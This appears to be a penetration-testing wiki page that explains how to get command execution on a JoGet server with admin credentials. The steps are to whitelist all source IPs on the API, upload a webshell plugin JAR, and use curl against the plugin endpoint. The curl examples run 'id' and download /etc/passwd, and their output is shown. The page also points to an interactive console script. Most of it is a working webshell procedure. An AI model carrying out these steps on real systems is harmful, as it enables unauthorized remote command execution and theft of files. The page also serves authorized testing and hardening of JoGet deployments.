




# JoGet - Upload a plugin

## Requirements

 - A valid **username and password** of a user with **admin rights** on JoGet.

## Exploitation

### Step 1: Whitelist your IP in the API

First of all, you will need to whitelist your IP in the API (or put `*` to match every source IP). This will allow you to perform requests on the `/jw/web/json` endpoint.

 - **API Domain Whitelist**: `*`
 - **API IP Whitelist**: `*`



### Step 2: Upload the webshell plugin

Go to "Manage plugins" page, at http://127.0.0.1:8000/jw/web/console/setting/plugin, and click on "Upload plugin":



Compile the webshell plugin or download a release here: https://github.com/p0dalirius/JoGet-plugin-webshell/. Then choose the JAR file of the [webshell application](https://github.com/p0dalirius/JoGet-plugin-webshell) and click on "Upload":



### Step 3.1: Executing commands

You can now execute commands by sending a GET or POST request to http://127.0.0.1:8000/jw/web/json/plugin/podalirius.WebShell/service with `action=exec&cmd=id`:

```sh
$ curl -X POST 'http://127.0.0.1:8000/jw/web/json/plugin/podalirius.WebShell/service' --data "action=exec&cmd=id"
{"stdout":"uid=1000(tomcat) gid=1000(tomcat) groups=1000(tomcat),0(root),27(sudo)\n","stderr":"","exec":["/bin/bash","-c","id"]}
```

You can also access it by a GET request from a browser:



### Step 3.2: Downloading files

You can also download remote files by sending a GET or POST request to http://127.0.0.1:8000/jw/web/json/plugin/podalirius.WebShell/service with `action=download&cmd=/etc/passwd`:

```sh
$ curl -X POST 'http://127.0.0.1:8000/jw/web/json/plugin/podalirius.WebShell/service' --data "action=download&path=/etc/passwd" -o-
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
mysql:x:101:101:MySQL Server,,,:/nonexistent:/bin/false
tomcat:x:1000:1000::/home/tomcat:/bin/sh
```

### Step 4: The interactive console

When your webshell is active, you can now use the interactive [console.py](https://raw.githubusercontent.com/p0dalirius/JoGet-plugin-webshell/master/console.py) to execute commands and download remote files.

https://user-images.githubusercontent.com/79218792/158264654-df612180-9de5-4b5b-b3a2-ad22ae05b889.mp4

## References
 - https://github.com/p0dalirius/JoGet-plugin-webshell